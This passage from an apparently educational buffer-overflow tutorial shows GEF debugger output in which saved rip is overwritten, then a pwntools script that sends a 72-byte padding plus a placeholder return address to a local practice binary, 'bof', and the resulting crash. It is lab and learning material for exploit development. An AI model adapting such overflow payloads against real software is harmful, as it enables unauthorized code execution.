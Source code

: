 ```c
0x00007fffffffe068│+0x0010: 0x00000001f7dfcfcb
0x00007fffffffe070│+0x0018: 0x0000000000401159  →  <main+0> push rbp
0x00007fffffffe078│+0x0020: 0x0000004000000000
0x00007fffffffe080│+0x0028: 0x0000000000000000
0x00007fffffffe088│+0x0030: 0x5221ceac2ba69d74
0x00007fffffffe090│+0x0038: 0x0000000000401060  →  <_start+0> endbr64 
───────────────────────────────── code:x86:64 ────
     0x401181 <main+40>        movabs ds:0xfffffea6e800000e, al
     0x40118a <main+49>        mov    eax, 0x0
     0x40118f <main+54>        leave  
 →   0x401190 <main+55>        ret    
[!] Cannot disassemble from $PC
───────────────────────────────────── threads ────
[#0] Id 1, Name: "bof", stopped 0x401190 in main (), reason: SIGSEGV
───────────────────────────────── trace ────
[#0] 0x401190 → main()
─────────────────────────────────────────────────────
gef➤  info frame
Stack level 0, frame at 0x7fffffffe058:
 rip = 0x401190 in main; saved rip = 0x4242424242424242
 Arglist at 0x4141414141414141, args: 
 Locals at 0x4141414141414141, Previous frame's sp is 0x7fffffffe060
 Saved registers:
  rip at 0x7fffffffe058
gef➤ 
```

So we see that it is correct, great! Just so that we don't lose this, I'm going to move to script this. It's just easier to manage.

```python
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

payload = b"A"*72
payload += p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```

And so when we run that

```python
$ python exploit-x86_64.py
[*] './bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process './bof': pid 62197
[*] Switching to interactive mode
What are you going to say?
Thank you, have a nice day!
[*] Got EOF while reading in interactive
$ ls
[*] Process './bof' stopped with exit code -11 (SIGSEGV) (pid 62197)
[*] Got EOF while sending in interactive
```
